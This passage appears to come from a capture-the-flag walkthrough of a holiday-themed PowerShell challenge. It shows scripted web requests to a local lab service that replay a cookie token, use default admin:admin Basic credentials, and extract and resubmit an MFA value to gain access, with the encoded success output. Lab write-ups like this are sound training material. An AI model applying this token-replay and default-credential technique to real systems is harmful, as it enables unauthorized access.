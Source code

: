 
> 9\) It looks like it requires a cookie token, set the cookie and try again.

```
$session = [Microsoft.PowerShell.Commands.WebRequestSession]::new()
$cookie = [System.Net.Cookie]::new('token','5f8dd236f862f4507835b0e418907ffc');
$session.Cookies.Add('http://127.0.0.1/',$cookie);
(Invoke-WebRequest -WebSession $session 'http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C' -Headers @{ Authorization = "Basic "+ [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes("admin:admin"))}).Content;
```

> ~~~
> \<h1>Cookie 'mfa_code', use it at \<a href='1733115957.1711812'>/mfa_validate/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C\</a>\</h1>
> ~~~

> [!NOTE]
> Waaaait...

> ![](attachments/troll_radar%201.gif)
> 
> There is no cookie 'mfa_code'. Instead, there exists a cookie 'mfa_token' that should be set to the value of the mfa code given - which in this case is '1733115957.1711812'

---

> 10\) Sweet we got a MFA token! We might be able to get access to the system.
 Validate that token at the endpoint!

```
$response = (Invoke-WebRequest -WebSession $session 'http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C' -Headers @{ Authorization = "Basic "+ [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes("admin:admin"))}).Content
$token = ($response | Select-String -Pattern '([0-9.]{16,})').Matches.Value;
$cookie = [System.Net.Cookie]::new('mfa_token',$token);
$session.Cookies.Add('http://127.0.0.1/',$cookie);
$response = Invoke-WebRequest -WebSession $session 'http://127.0.0.1:1225/mfa_validate/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C' -Headers @{ Authorization = "Basic "+ [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes("admin:admin"))};
$response.Content
```

> ~~~
> \<h1>[+] Success\</h1>\<br>\<p>Q29ycmVjdCBUb2tlbiBzdXBwbGllZCwgeW91IGFyZSBncmFudGVkIGFjY2VzcyB0byB0aGUgc25vdyBjYW5ub24gdGVybWluYWwuIEhlcmUgaXMgeW91ciBwZXJzb25hbCBwYXNzd29yZCBmb3IgYWNjZXNzOiBTbm93TGVvcGFyZDJSZWFkeUZvckFjdGlvbg==\</p>
> ~~~

---